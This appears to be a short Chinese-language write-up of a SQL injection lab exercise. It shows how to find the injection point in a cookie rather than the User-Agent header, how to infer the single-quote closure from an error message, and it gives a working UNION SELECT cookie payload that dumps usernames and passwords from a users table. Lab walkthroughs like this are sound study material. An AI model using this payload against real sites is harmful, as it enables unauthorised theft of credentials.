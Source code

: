 ![NXMscF.png](https://s1.ax1x.com/2020/07/03/NXMscF.png)

这里再UA处无论怎么做他都不报错，并且回显咋们输入的。

说明这不是注入点，在cookie处进行注入。

测试单引号，成功报错。

![NXQr5t.png](https://s1.ax1x.com/2020/07/03/NXQr5t.png)

并且从爆出的错误来看`'admin'' LIMIT 0,1`闭合方式为单引号。

解法跟前面的get方式注入一样。

payload: `Cookie: uname=-admin' union select 1,(select group_concat(username,password) from users),3 #`





